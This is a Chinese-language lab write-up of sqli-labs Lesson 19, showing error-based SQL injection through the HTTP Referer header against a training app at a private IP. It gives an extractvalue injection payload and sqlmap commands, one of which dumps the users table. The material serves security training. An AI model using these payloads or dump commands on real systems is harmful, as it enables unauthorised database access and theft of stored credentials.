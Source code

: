 ```yaml
---
title: sqli-labs lession 19 POST基于错误的Referer字段数据头注入
date: 2018-09-29 19:49:33
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs lession 19 POST基于错误的Referer字段数据头注入 #

## 登录界面 ##

![1](/img/sql/Lesson-19/1.png)

## 注入 ##

根据题目提示直接在Referer字段尝试。

![2](/img/sql/Lesson-19/2.png)

单引号引起报错

![3](/img/sql/Lesson-19/3.png)

抑制下一个单引号

![4](/img/sql/Lesson-19/4.png)

payload:

`http://10.60.250.66/sql/Less-19/' and extractvalue(null,concat(0x7e,database(),0x7e)) and '1'='1`

![5](/img/sql/Lesson-19/5.png)

详细过程看Lesson-18

{% post_link sqli-labs-lession-18-POST基于错误的Uagent字段数据头注入 点击查看%}

## SQLMAP ##

```
--data:指定请求数据

--method:指定请求方式

--dbms:指定后端数据库

--thread:指定并发线程

--referer:指定referer字段

--level 3:加入检测User-Agent和Referer

--technique E:检测报错注入
```

`sqlmap -u "http://10.60.250.66/sql/Less-19/" --data "uname=admin&passwd=admin&submit=Submit" --method POST --dbms mysql --threads 10 --referer "http://10.60.250.66/sql/Less-19/' and '1'='1" --level 3 --technique E `

![6](/img/sql/Lesson-19/6.png)

![7](/img/sql/Lesson-19/7.png)

`sqlmap -u "http://10.60.250.66/sql/Less-19/" --data "uname=admin&passwd=admin&submit=Submit" --method POST --dbms mysql --threads 10 --referer "http://10.60.250.66/sql/Less-19/' and '1'='1" --level 3 --technique E -D security -T users --columns --dump`

![8](/img/sql/Lesson-19/8.png)